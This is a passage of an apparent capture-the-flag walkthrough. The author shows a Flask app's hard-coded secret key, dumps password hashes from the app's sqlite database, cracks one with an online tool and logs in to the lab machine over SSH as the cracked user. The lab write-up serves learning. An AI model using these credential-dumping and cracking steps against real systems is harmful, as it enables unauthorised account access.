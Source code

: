 app = Flask(__name__)
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)
</pre>

<p>Next, I exported this database file to my local kali machine and examined it using sqlite3:</p>
<pre>
└─$ sqlite3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open database.db
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
</pre>

<p>These seem like md5 hashes as they are 32 characters long. So, let's try cracking them using crackstation. We find the following password for martin (martin is a user on the box):</p>

<img src="/images/Code/code_crackstation.webp" alt="cracked password for martin" class="postImage">

<p>Let's log in as martin using ssh:</p>
<pre>
──(kali㉿kali)-[~]
└─$ ssh martin@10.10.11.62
The authenticity of host '10.10.11.62 (10.10.11.62)' can't be established.
ED25519 key fingerprint is SHA256:AlQsgTPYThQYa3z9ZAHkFiO/LqXA6T55FoT58A1zlAY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes$
Please type 'yes', 'no' or the fingerprint: yes 
Warning: Permanently added '10.10.11.62' (ED25519) to the list of known hosts.
martin@10.10.11.62's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
